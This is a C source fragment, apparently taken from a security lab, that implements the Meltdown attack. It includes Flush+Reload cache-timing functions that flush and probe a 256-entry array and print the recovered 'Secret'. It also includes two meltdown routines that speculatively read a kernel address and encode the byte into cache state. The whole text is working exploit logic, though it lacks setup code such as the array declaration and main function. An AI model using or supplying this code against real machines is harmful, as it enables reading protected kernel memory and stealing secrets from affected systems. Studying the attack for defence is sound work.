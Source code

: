 ```c=
#define CACHE_HIT_THRESHOLD (200)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

void reloadSideChannel() 
{
  uint32_t junk=0;
  uint32_t *addr;
  uint64_t time1, time2;
 
  int i;
  for(i = 0; i < 256; i++){
     addr = (uint32_t*)&array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n",i,DELTA);
         printf("The Secret = %d.\n",i);
     }
  } 
}
/*********************** Flush + Reload ************************/

void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;

  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;     
  array[7 * 4096 + DELTA] += 1;          
}

void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 4;"                
       "add $0x141, %%eax;"
       ".endr;"                    
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;           
}

```